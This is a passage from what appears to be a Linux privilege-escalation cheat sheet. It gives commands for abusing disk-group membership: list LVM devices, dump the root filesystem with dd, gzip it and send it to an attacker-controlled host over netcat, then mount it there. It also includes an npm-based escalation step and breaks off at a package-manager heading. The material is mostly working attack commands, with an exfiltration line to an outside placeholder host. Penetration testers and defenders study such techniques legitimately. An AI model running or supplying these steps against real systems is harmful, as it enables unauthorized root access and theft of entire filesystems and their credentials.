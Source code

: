 Then execute

```
user@hacked:/dev/shm$ sudo npm i node/ --unsafe
```

#### Privilege escalation through the disk group

This method works when you get your first shell on the target machine. We check to see if the current use is part of the \[disk] group

```
user@target-machine:/$ id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),6(disk)
```

We list how the devices are configured

```
user@target-machine:/$ lsblk
NAME MAJ:MIN RM SIZE RO TYPE MOUNTPOINT 
sda 8:0 0 12G 0 disk 
├─sda1 8:1 0 120M 0 part /boot 
├─sda2 8:2 0 1K 0 part 
└─sda5 8:5 0 11.9G 0 part 
├─machine--vg-root 252:0 0 7G 0 lvm / 
└─machine-vg-swap_1 252:1 0 1G 0 lvm [SWAP] 
sr0 11:0 1 1024M 0 rom
```

Based off the output above, we will want to read the \[machine--vg-root] which is part of the partition \[sda5]. We read the mappings on \[LVM]

```
user@target-machine:/$ ls -l /dev/mapper/
lrwxrwxrwx 1 root root 7 May 14 20:51 machine--vg-root -> ../dm-0 
lrwxrwxrwx 1 root root 7 May 14 20:51 machine-vg-swap_1 -> ../dm-1
```

So the mapped devices are \[dm-0] and \[dm-1]. We will then retrieve the \[dm-0] device since it contains the \[root] file system. We will also compess it with \[gzip] and send it to \[netcat]

```
user@target-machine:/$ time dd if=/dev/dm-0 | gzip -1 - | nc [your-ip] [port]
```

On your machine

```
user@attacker-machine:/$ nc -lvp [port] > dm-0.gz
```

Once you recieve the file, uncomperss it with \[gunzip] and mount it with the below command

```
user@attacker-machine:/$ sudo mount  dm-0-mounted /mnt/
user@attacker-machine:/$ ls /mnt/
```

#### Privilege Escalation through package manager
